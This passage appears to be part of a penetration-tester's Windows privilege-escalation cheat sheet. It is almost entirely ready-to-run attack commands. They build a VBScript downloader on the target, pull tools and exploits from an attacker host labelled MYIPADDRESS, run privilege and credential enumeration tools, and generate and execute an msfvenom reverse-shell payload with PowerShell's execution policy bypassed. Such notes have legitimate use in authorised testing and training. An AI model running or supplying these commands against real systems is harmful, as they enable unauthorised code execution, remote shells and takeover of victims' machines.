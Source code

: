 ```
cewl http://INSERTIPADDRESS
```
----------------------------------------------------------------------------


-----------------------------------------------------------------------------
# Privesc

### First Steps

```
Upload files
Host:
cd /root/Dropbox/Scripts/Post_Windows/uploads && python -m SimpleHTTPServer 8080

Target:
cd %temp%

echo strUrl = WScript.Arguments.Item(0) > wget.vbs && echo StrFile = WScript.Arguments.Item(1) >> wget.vbs && echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs && echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs && echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs && echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs && echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs && echo Err.Clear >> wget.vbs && echo Set http = Nothing >> wget.vbs && echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs && echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs && echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs && echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs && echo http.Open "GET", strURL, False >> wget.vbs && echo http.Send >> wget.vbs && echo varByteArray = http.ResponseBody >> wget.vbs && echo Set http = Nothing >> wget.vbs && echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs && echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs && echo strData = "" >> wget.vbs && echo strBuffer = "" >> wget.vbs && echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs && echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs && echo Next >> wget.vbs && echo ts.Close >> wget.vbs

cscript.exe wget.vbs http://MYIPADDRESS:8080/wget.exe wget.exe

wget.exe http://MYIPADDRESS:8080/ -r && move MYIPADDRESS+8080 exploits && cd exploits && del index.html

START /B windows-privesc-check2.exe --audit -a -o wpc-report && START /B accesschk.exe -uwcqv "Authenticated Users" * /accepteula && START /B seatbelt.exe all > seatbelt-report

OR with Powershell
powershell -c (New-Object System.Net.WebClient).DownloadFile('http://MYIPADDRESS:8080/seatbelt.exe','seatbelt.exe')
seatbelt.exe all > seatbelt-report

***If Windows 7 and above***
msfvenom -p windows/shell_reverse_tcp LHOST=MYIPADDRESS LPORT=443 -f psh -o shell_80.ps1
powershell -ExecutionPolicy Bypass -NoExit -File shell_80.ps1
```

